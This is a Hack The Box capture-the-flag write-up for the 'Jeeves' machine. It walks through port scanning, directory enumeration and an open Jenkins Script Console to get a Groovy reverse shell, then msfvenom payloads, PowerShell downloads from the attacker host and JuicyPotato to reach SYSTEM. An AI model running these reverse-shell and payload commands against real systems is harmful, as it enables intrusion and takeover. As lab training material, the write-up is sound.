

# [Jeeves](https://app.hackthebox.com/machines/Jeeves)

```bash
nmap -p- --min-rate 10000 10.10.10.63 -Pn 
```


I see that ports(80,135,445,50000) are open, let's do greater nmap scan.

```bash
nmap -A -sC -sV -p80,135,445,50000 10.10.10.63 -Pn
```


While I access to port (50000), I don't see anything, that's why I need to do Directory Enumeration.

```bash
gobuster dir -u http://10.10.10.63:50000/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t 50 -x php,txt,js
```


While I browse this page, I see that it is Jenkins server.

Go to 'Manage Jenkins' , then 'Script Console'.


Here, we write our reverse shell script which I take from [here](https://gist.githubusercontent.com/frohoff/fed1ffaab9b9beeb1c76/raw/7cfa97c7dc65e2275abfb378101a505bfb754a95/revsh.groovy)


```bash
String host="10.10.16.8";
int port=1337;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```


I got reverse shell.


user.txt


I just look at my user privileges via `whoami /priv` command.


The **SeImpersonatePrivilege** is enabled which could allow us to escalate our privileges.


Let's download this exploit from [here](https://github.com/ohpe/juicy-potato/releases)

Then, create our malicious .bat file which is reverse shell.

```bash
msfvenom -p cmd/windows/reverse_powershell lhost=10.10.16.8 lport=1338 > shell.bat
```


Now, it's time to open http server to upload this files into target's machine.

```bash
python3 -m http.server --bind 10.10.16.8 8080
```


To download scripts from Windows machine.
```bash
powershell -command Invoke-WebRequest -Uri http://10.10.16.8:8080/JuicyPotato.exe -Outfile C:\Users\kohsuke\Desktop\JuicyPotato.exe


powershell -command Invoke-WebRequest -Uri http://10.10.16.8:8080/shell.bat -Outfile C:\Users\kohsuke\Desktop\shell.bat

```


Let's use exploit due to our needs.

```bash
JuicyPotato.exe -p shell.bat -l 1338 -t *
```





I got administrative reverse shell.


To find root.txt , I have a lot of problems.


That's why, I listed all files on this directory means (ls -la command), that's `dir /r` on Windows.

Then to read this hidden file I use `more` command.

